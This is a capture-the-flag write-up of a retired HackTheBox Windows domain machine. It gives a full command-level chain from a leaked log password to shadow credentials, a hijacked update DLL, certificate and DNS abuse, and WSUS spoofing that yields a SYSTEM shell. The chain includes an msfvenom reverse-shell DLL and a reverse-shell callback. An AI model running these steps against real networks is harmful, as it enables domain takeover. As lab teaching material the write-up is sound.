


+++
title = "Logging — chaining recovery credentials, update loading, and WSUS trust"
date = "2026-04-21"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Medium"
tags = ["Windows", "Active Directory", "Shadow credentials", "DLL loading", "AD CS", "WSUS"]
summary = "A recovery secret in a log led to account control, a writable update archive enabled lateral movement, and certificate plus DNS permissions exposed the software-update trust boundary."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

Logging began with the supplied `wallace.everette` account and ended with a SYSTEM shell. Its strongest lesson was how separate operational conveniences combined: verbose identity logs, delegated account control, a local update package, and permissions affecting the update server's identity.

| Transition | Enabling condition |
| --- | --- |
| Starting user → `svc_recovery` | Logged password clue and predictable revision |
| `svc_recovery` → `MSA_HEALTH$` | GenericWrite and shadow credentials |
| `MSA_HEALTH$` → `jaylee.clifton` | Writable package consumed by an update task |
| `jaylee.clifton` → SYSTEM | Certificate enrollment and DNS control used against WSUS |

`$IP` is the assigned domain controller address. Workstation commands use Bash; PowerShell blocks run in the specified target session.

## Reading authentication failures carefully

The `Logs` share contained an identity synchronization trace. One failed LDAP bind exposed a cleartext password for `svc_recovery`, followed later by a successful bind. The initial password did not produce a usable login.

I enumerated shares with the supplied account and connected to the readable log share:

```bash
nxc smb $IP -u wallace.everette -p 'Welcome2026@' --shares
impacket-smbclient 'wallace.everette:Welcome2026@'@logging.htb
```

Within the SMB client:

```text
use Logs
mget *
```

`IdentitySync_Trace_20260219.log` exposed the candidate password `Em3rg3ncyPa$$2025`.

An NTLM attempt returned an account restriction error. That response was not enough to decide whether the password was correct. A Kerberos attempt gave a preauthentication failure. I then tested a year change suggested by the credential pattern and the supplied starting password; that revised password worked.

```bash
nxc smb $IP -u svc_recovery -p 'Em3rg3ncyPa$$2025'
nxc smb $IP -u svc_recovery -p 'Em3rg3ncyPa$$2025' -k
nxc smb $IP -u svc_recovery -p 'Em3rg3ncyPa$$2026' -k
```

The explicit `-k` selects Kerberos. Domain names must resolve to the lab controller, and the workstation clock must be synchronized with the domain.

BloodHound later showed `svc_recovery` in Protected Users, consistent with the NTLM restriction. I used a Kerberos ticket for the next enumeration stage rather than treating every failed login as evidence of a wrong password.

## Following delegated control to WinRM

BloodHound identified GenericWrite over `MSA_HEALTH$`, which also belonged to Remote Management Users.

```bash
bloodhound-ce-python -u wallace.everette -p 'Welcome2026@' \
  -d logging.htb -dc DC01.logging.htb -ns $IP -c All --zip
```

I imported the resulting archive into BloodHound and examined the control relationships from `svc_recovery`.



I used the write permission to add a shadow credential to `MSA_HEALTH$`, authenticate as that account, and recover its authentication material. The operation restored the account's previous key credentials afterward. A WinRM session as `MSA_HEALTH$` confirmed that the account's remote-management membership provided a host foothold.

On the workstation, I requested a ticket for `svc_recovery` and used that cache with Certipy:

```bash
impacket-getTGT -dc-ip $IP 'logging.htb/svc_recovery:Em3rg3ncyPa$$2026'
export KRB5CCNAME=svc_recovery.ccache
certipy-ad shadow auto -k -dc-host DC01.logging.htb -account 'MSA_HEALTH$'
```

Certipy returned the account's NT hash. I used it to authenticate through WinRM:

```bash
evil-winrm -i dc01.logging.htb -u 'MSA_HEALTH$' -H '603fc24ee01a9409f83c9d1d701485c5'
```


In the resulting session, `whoami` returned:

```text
logging\msa_health$
```

## Investigating the update task

A monitoring script pointed toward an UpdateChecker task running as `jaylee.clifton`. The executable itself was protected. I initially investigated COM behavior and a writable dependency, but those observations did not yet explain how to trigger useful execution.

From the `MSA_HEALTH$` PowerShell session, I queried the scheduled task through the Task Scheduler COM interface:

```powershell
$service = New-Object -ComObject 'Schedule.Service'
$service.Connect()
$task = $service.GetFolder('\').GetTask('UpdateChecker Agent')
$task.Definition.Principal | Select-Object UserId, RunLevel, LogonType
$task.Definition.Actions | ForEach-Object {
    $_.Path
    $_.Arguments
    $_.WorkingDirectory
}
$task.Definition.Triggers | ForEach-Object { $_.Type; $_.Enabled }
```

The action was `C:\Program Files\UpdateMonitor\UpdateMonitor.exe` with arguments `500 /scan=3 /autofix=true`. Its principal was `jaylee.clifton`.

Running `UpdateMonitor.exe` was the decisive step. Its output described a local fallback archive, `C:\ProgramData\UpdateMonitor\Settings_Update.zip`, which the task extracted into its `bin` directory before loading `settings_update.dll`. The current account could write the input directory.

```powershell
& 'C:\Program Files\UpdateMonitor\UpdateMonitor.exe'
icacls 'C:\ProgramData\UpdateMonitor'
```

The directory ACL granted ordinary users write-related permissions. That was sufficient to supply an update archive even though the executable was not writable by the current account.

My first custom C# DLL attempts failed. Logs showed that the archive was extracted and the DLL was loaded, but the program expected a `PreUpdateCheck` entry point. A later generated DLL payload produced the callback as `jaylee.clifton`.

On the workstation, I generated the x86 DLL and started the matching listener:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp \
  LHOST=10.10.17.163 LPORT=9001 -f dll -o settings_update.dll
nc -lvnp 9001
```

Using the `MSA_HEALTH$` Evil-WinRM session, I uploaded the DLL. The archive must contain `settings_update.dll` at its root; this PowerShell packaging command expresses that layout:

```powershell
upload ./settings_update.dll
Compress-Archive -Path .\settings_update.dll -DestinationPath 'C:\ProgramData\UpdateMonitor\Settings_Update.zip' -Force
```

I checked the task's run time while waiting for the update cycle:

```powershell
$task.LastRunTime
```



*The task trusted a package supplied through a lower-privileged writable directory.*

## Crossing the update-server trust boundary

Local configuration identified the WSUS endpoint as `https://wsus.logging.htb:8531`. The remaining path required more than changing a hostname: the HTTPS service also needed an identity the client would trust.

```powershell
reg query 'HKLM\Software\Policies\Microsoft\Windows\WindowsUpdate' /v WUServer
```

An `UpdateSrv` certificate template was available to the IT group. From the `jaylee.clifton` session, certificate enrollment produced a certificate and private key. The successful request used Certify 2 to include `wsus.logging.htb` as a DNS subject alternative name.

In the reverse shell as `jaylee.clifton`, I requested the certificate:

```powershell
.\Certify2.exe request --ca DC01.logging.htb\logging-DC01-CA --template UpdateSrv --dns wsus.logging.htb --output-pem --out-file cert.pem
```

After transferring `cert.pem` to the workstation, I inspected the name in the certificate:

```bash
openssl x509 -in cert.pem -noout -text | grep -A 3 'Subject Alternative'
```

```text
X509v3 Subject Alternative Name:
    DNS:wsus.logging.htb
```

I also exported a password-protected PFX copy on Kali. The later `wsuks` command uses the PEM file directly:

```bash
openssl pkcs12 -export -out wsus.logging.htb.pfx -in cert.pem -passout pass:password123
```

Separately, `MSA_HEALTH$` could add the DNS record directing the WSUS hostname to the lab workstation. The DNS command ran on Kali with that account's credentials:

```bash
python3 dnstool.py -u 'logging\MSA_HEALTH$' \
  -p 'aad3b435b51404eeaad3b435b51404ee:603fc24ee01a9409f83c9d1d701485c5' \
  -r wsus.logging.htb -dc-ip $IP -dns-ip $IP -d 10.10.17.163 \
  --action add dc01.logging.htb
```

Here `10.10.17.163` is the workstation VPN address. From the target, I verified the resulting resolution:

```powershell
Resolve-DnsName wsus.logging.htb
```

With DNS pointing at the controlled endpoint and a suitable TLS certificate, I used `wsuks` to serve the lab update response. The resulting shell ran as `NT AUTHORITY\SYSTEM`.

The successful invocation supplied an encoded PowerShell reverse shell. Replace `<ENCODED_POWERSHELL_CALLBACK>` with the full payload configured for the workstation's listener; the abbreviated base64 prefix is not a usable payload:

```bash
sudo wsuks --serve-only --WSUS-Server wsus.logging.htb --tls-cert cert.pem \
  -t $IP -I tun0 -c '/accepteula /s powershell -e <ENCODED_POWERSHELL_CALLBACK>'
```

When the client processed the served update, the callback arrived with SYSTEM privileges. This completed the chain from a lower-privileged user to execution through the trusted update workflow.

## Defensive takeaways

- Exclude credentials from trace logs and rotate secrets exposed in historical logs.
- Audit account-control permissions and changes to key-credential attributes.
- Require authenticated update packages and protect every directory involved in extraction and loading.
- Review DNS and certificate enrollment permissions together with update-client trust. HTTPS cannot protect an endpoint's identity when an attacker can obtain an accepted certificate for that name.

## What I learned

Executing a program with harmless inputs and reading its logs answered questions that speculative exploitation did not. I also learned to separate each requirement of an attack chain: account control, package write access, certificate identity, and name resolution each needed its own evidence.
